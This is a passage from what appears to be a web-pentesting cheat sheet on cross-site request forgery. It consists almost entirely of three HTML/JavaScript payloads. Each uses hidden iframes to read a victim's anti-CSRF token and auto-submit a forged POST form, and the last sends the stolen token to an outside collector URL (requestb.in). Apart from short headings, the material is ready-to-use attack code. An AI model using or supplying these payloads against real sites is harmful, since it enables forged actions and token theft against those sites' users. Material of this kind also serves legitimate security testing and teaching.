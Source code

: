 ```markup
<form id="form1" action="http://google.com?param=VALUE" method="post" enctype="multipart/form-data">
<input type="text" name="username" value="AA">
<input type="checkbox" name="status" checked="checked">
<input id="token" type="hidden" name="token" value="" />
</form>

<script type="text/javascript">
function f1(){
    x1=document.getElementById("i1");
    x1d=(x1.contentWindow||x1.contentDocument);
    t=x1d.document.getElementById("token").value;

    document.getElementById("token").value=t;
    document.getElementById("form1").submit();
}
</script> 
<iframe id="i1" style="display:none" src="http://google.com?param=VALUE" onload="javascript:f1();"></iframe>
```

### **Steal CSRF Token and sen a POST request using an iframe and a form**

```markup
<iframe id="iframe" src="http://google.com?param=VALUE" width="500" height="500" onload="read()"></iframe>

<script> 
function read()
{
    var name = 'admin2';
    var token = document.getElementById("iframe").contentDocument.forms[0].token.value;
    document.writeln('<form width="0" height="0" method="post" action="http://www.yoursebsite.com/check.php"  enctype="multipart/form-data">');
    document.writeln('<input id="username" type="text" name="username" value="' + name + '" /><br />');
    document.writeln('<input id="token" type="hidden" name="token" value="' + token + '" />');
    document.writeln('<input type="submit" name="submit" value="Submit" /><br/>');
    document.writeln('</form>');
    document.forms[0].submit.click();
}
</script>
```

### **Steal token and send it using 2 iframes**

```markup
<script>
var token;
function readframe1(){
  token = frame1.document.getElementById("profile").token.value;
  document.getElementById("bypass").token.value = token
  loadframe2();
}
function loadframe2(){
  var test = document.getElementbyId("frame2");
  test.src = "http://requestb.in/1g6asbg1?token="+token;
}
</script>

<iframe id="frame1" name="frame1" src="http://google.com?param=VALUE" onload="readframe1()" 
sandbox="allow-same-origin allow-scripts allow-forms allow-popups allow-top-navigation"
height="600" width="800"></iframe>
```